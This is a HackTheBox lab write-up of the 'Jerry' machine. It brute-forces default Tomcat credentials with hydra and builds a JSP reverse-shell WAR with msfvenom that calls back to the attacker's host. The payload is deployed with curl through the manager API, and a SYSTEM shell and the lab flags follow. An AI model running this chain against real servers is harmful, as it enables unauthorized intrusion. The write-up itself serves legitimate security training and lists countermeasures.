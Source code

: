 ```yaml
---
layout: single
title:  "HackTheBox - Jerry"
date:   2020-09-24
excerpt: "Jerry was a trivial machine where default Tomcat 7 credentials were used. Leveraging these credentials, I was able to access the Tomcat manager API to upload a malicious WAR file acting as a reverse shell. Leveraging the uploaded payload, I was able to get remote code execution on the machine with SYSTEM privileges."
header:
  teaser: /assets/images/htb-jerry/jerry.png
categories:
  - hackthebox
  - infosec
tags:
  - tomcat
  - default credentials
  - msfvenom
  - online brute force
---
```


![](/assets/images/htb-jerry/jerry.png)

#### Machine Release Date: June 30, 2018

## Summary

Jerry was a trivial machine where default Tomcat 7 credentials were used.
Leveraging these credentials, I was able to access the Tomcat manager API to upload a malicious WAR file acting as a reverse shell.
Leveraging the uploaded payload, I was able to get remote code execution on the machine with SYSTEM privileges.

## Active Ports

```bash
sudo nmap -p8080 -sC -sV -oA nmap/full-tcp-version 10.10.10.95
```

```
Nmap scan report for 10.10.10.95
Host is up (0.033s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Sep 24 14:35:36 2020 -- 1 IP address (1 host up) scanned in 9.90 seconds
```

## User Own - (Tomcat 7 Default Credential Usage)

Navigating to the web service on port 8080, I was presented with a Tomcat 7 web application. It looked like the application had just been deployed.
Also, with Tomcat applications, it is always a good idea to brute force for default credentials:

```
kali@kali:~/htb/machines/jerry/web/exploit$ hydra -C /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt -s 8080 10.10.10.95 http-get /manager/html
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-24 15:00:29
[DATA] max 16 tasks per 1 server, overall 16 tasks, 79 login tries, ~5 tries per task
[DATA] attacking http-get://10.10.10.95:8080/manager/html
[8080][http-get] host: 10.10.10.95   login: admin   password: admin
[8080][http-get] host: 10.10.10.95   login: admin   password: admin
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
1 of 1 target successfully completed, 4 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-24 15:00:31
```

The username and password were `tomcat` and `s3cret` respectively.
Next, I generated a JSP reverse shell as a WAR file so that I could deploy it via the Tomcat manager:

```
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.19 LPORT=2001 -f war -o r0kit.war
Payload size: 1096 bytes
Final size of war file: 1096 bytes
Saved as: r0kit.war
```

I then created the following script to upload the malware to the server:

### commands.sh

```bash
curl -vv -X PUT -H "Authorization: Basic `echo -n 'tomcat:s3cret' | base64`" --data-binary @r0kit.war http://10.10.10.95:8080/manager/text/deploy?path=/r0kit
curl -vv -H "Authorization: Basic `echo -n 'tomcat:s3cret' | base64`" http://10.10.10.95:8080/manager/text/list
```

The first curl command sends an HTTP PUT request with the `tomcat:s3cret` credentials, uploading the `r0kit.war` JSP reverse shell.
The second curl command lists which Tomcat apps were deployed as a verification that my payload was successfully uploaded.

```
kali@kali:~/htb/machines/jerry/web/exploit$ ./commands.sh
*   Trying 10.10.10.95:8080...
* Connected to 10.10.10.95 (10.10.10.95) port 8080 (#0)
> PUT /manager/text/deploy?path=/r0kit HTTP/1.1
> Host: 10.10.10.95:8080
> User-Agent: curl/7.72.0
> Accept: */*
> Authorization: Basic dG9tY2F0OnMzY3JldA==
> Content-Length: 1096
> Content-Type: application/x-www-form-urlencoded
>
* upload completely sent off: 1096 out of 1096 bytes
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: Apache-Coyote/1.1
< Cache-Control: private
< Expires: Thu, 01 Jan 1970 02:00:00 EET
< X-Content-Type-Options: nosniff
< Content-Type: text/plain;charset=utf-8
< Transfer-Encoding: chunked
< Date: Fri, 25 Sep 2020 02:09:35 GMT
<
OK - Deployed application at context path /r0kit
* Connection #0 to host 10.10.10.95 left intact
*   Trying 10.10.10.95:8080...
* Connected to 10.10.10.95 (10.10.10.95) port 8080 (#0)
> GET /manager/text/list HTTP/1.1
> Host: 10.10.10.95:8080
> User-Agent: curl/7.72.0
> Accept: */*
> Authorization: Basic dG9tY2F0OnMzY3JldA==
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: Apache-Coyote/1.1
< Cache-Control: private
< Expires: Thu, 01 Jan 1970 02:00:00 EET
< X-Content-Type-Options: nosniff
< Content-Type: text/plain;charset=utf-8
< Transfer-Encoding: chunked
< Date: Fri, 25 Sep 2020 02:09:35 GMT
<
OK - Listed applications for virtual host localhost
/:running:0:ROOT
/examples:running:0:examples
/host-manager:running:0:host-manager
/r0kit:running:0:r0kit
/manager:running:2:manager
/docs:running:0:docs
* Connection #0 to host 10.10.10.95 left intact
```

Navigating to `http://10.10.10.95:8080/r0kit/` presented me with a reverse shell with SYSTEM privileges:

```
$ rlwrap ncat -nvlp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.95.
Ncat: Connection from 10.10.10.95:49192.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

Doing some basic enumeration, I navigated to the Administrator's desktop to find the flags:

```
c:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
c:\Users\Administrator\Desktop\flags>
```

## Countermeasures

* Upgrade to the latest version of tomcat.
* Always configure tomcat with non-default credentials. Prefer to use long passwords with alphanumeric characters, numbers, and special characters. Ideally, use a password manager so that you can manage non-human rememberable passwords.
* Avoid running services with SYSTEM privileges.

